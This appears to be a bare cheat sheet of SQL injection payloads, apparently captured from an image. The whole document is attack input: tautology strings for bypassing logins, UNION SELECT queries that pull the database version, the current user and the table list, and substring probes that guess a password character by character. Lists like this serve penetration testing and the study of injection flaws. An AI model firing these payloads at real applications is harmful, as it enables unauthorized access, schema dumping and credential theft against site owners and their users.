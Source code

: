 ```
' or 'x'='x
') or ('x'='x
" or "x"="x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
' or 1=1 limit 1 -- -+
'="or'
```
